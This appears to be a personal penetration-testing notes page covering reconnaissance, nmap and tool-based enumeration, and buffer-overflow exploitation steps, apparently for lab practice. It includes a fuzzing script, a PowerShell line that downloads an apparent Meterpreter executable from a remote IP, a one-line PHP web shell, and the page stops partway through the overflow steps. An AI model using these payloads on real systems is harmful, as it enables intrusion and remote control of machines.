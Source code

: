 ```yaml
---
layout: page
title: 'Tactics Techniques and Procedures (TTP):'
permalink: /process/
published: true
---
```

## Process

__Target Identification:__

This is sometimes a given if running your own VM but if on the local network and needing to further identify targets:
	- arp-scan --localnet
    - ping sweep - using nmap -sn > insert subnet here
    - passive listening using Wireshark/tcpdump

__Enumeration:__

The never-ending process. The needle in the stack of needles. Here are some methods:

Phase 1:
    - Nmap #1: "Shotgun" scanning via the -A option (optional -sC for running default scripts).
    - Nmap #2: Extended TCP scanning -p1-65535 -sV --reason (with versioning and reason).

Phase 2: Conditional, based on output of Phase1, but often involves the following enumeration tools to find more information on resources the target is exposing:

| Service | Tool | Description |
| --- | --- | ---: |
| Web | Nikto | Vuln Scanner |
| Web | Dirb | Web Directory Scanner |
| Web | Wfuzz | Fuzzer |
| Web | Fimap | Spider/LFI/RFI |
| Web | Curl | Transfer Utility |
| SMB | Enum4linux | Network Share Scanner |
| Various | NetCat | Network Connection Utility |
{:.mbtablestyle}

Of course this is just a small sample of tools, and very focused on web exploitation. In many cases information can be gathered through investigative methods such as:
- Source code viewing (web pages, or scripts on web pages).
- Using the "strings" command to pull readable strings from downloaded files. 
- Utilizing a proxy (such as Burp Suite or Zed Attack Proxy) for analyzing, modifying, or fuzzing information from web services, although this blurrs the line a bit between a somewhat passive enumeration event and active information gathering event.

Supplied tools and intuition are sometimes not enough however and the ability to script ones own tools for the occasion are necessary. What are we if not adaptable, and so the formats used here have to be as varied as the targets. Below are some snippets of scripts that may make parts of these phases easier:

__Script Snips:__

****BASH***  
For loop example:  
	for server in $(cat $1 );do  
	host -t a $server |grep "has address"  
	done  

****Python***  
Simple socket script (with options) for sending incrementing "A's" for determining buffer overflow.  

#!/usr/bin/python  
import socket  

import argparse  

ap = argparse.ArgumentParser()  
ap.add_argument("-ip", "--ipaddress", required=True,  
        help="IP Address of host")  
ap.add_argument("-p", "--port", required=True, type=int,  
        help="Port of host")  
args = vars(ap.parse_args())  

RHOST = args["ipaddress"]  
RPORT = args["port"]  
buffer=["A"]  
counter=100  
while len(buffer) <= 30:  
   buffer.append("A"*counter)  
   counter=counter+200  
for string in buffer:  
   print "Fuzzing with %s bytes" % len(string)  
   s=socket.socket(socket.AF_INET, socket.SOCK_STREAM)  
   connect=s.connect((RHOST, RPORT))  
   s.send(string + '\r\n')  
   s.recv(1024)  
s.close()  

****Powershell***  
.NET object to download a remote file:  

(new-object System.Net.WebClient).DownloadFile('http://10.9.122.8/met8888.exe','C:\Users\jarrieta\Desktop\met8888.exe')  
****PHP***  
Small Web shell:  

php system ($_GET[“cmd”]);



__BufferOverflow:__  

Some services will accept user input, but are not configured correct, in that they do not filter or allocate the correct input exactly so that sending more input than what the program is expecting will overwrite the programs execution flow and it will crash. If this is the case, sometimes a script can be created that controls this overflow behavior and instead of crashing the program, instructs it to do whatever the attacker wants (usually establishing a reverse shell or executing other malicious programs).  Below is a very short list of steps to BoF:  

__BoF Phase1:__  
1. Use a "fuzzing" script to detemrmine if the program is susceptible to crashing at a determined input amount. Use a debugger to ensure that the EIP register is overwritten with "A's".  
2. Create a unique pattern (MetaSploit's pattern_create can be used) based on the amount of data that previously crashed. Send the pattern to the program via modified script and copy the pattern that appears in the EIP.  
3. Use MetaSploit's pattern_offset tool to determine where in the unique value the EIP previously obtained, is included (what bit value, or point in the whole pattern was this bit that fit into the EIP is at).  
4. Modify script to include the crashing byte amount and the offset (set a different value for this, only 4 "B's" or 42). Include trailing "C's" or 43 for padding. This will be a placeholder for shellcode.  

__BoF Phase2:__  
5. Find bad characters that the program will not accept. If using Immunity debugger, the Mona module is good for this.  
6. Use this information to perform wider search for memory locations to pivot to with "JMP ESP" instruction set. This can be done via Mona using "!mona jmp -r esp -cpb "badCharacters". Focus on modules with no DEP or ASLR protections.  
7. Remember that the value found here must be placed into script used in Little-Endian format (backwards), or using a module that does this conversion for you.  

__BoF Phase3:__  
8. 
        
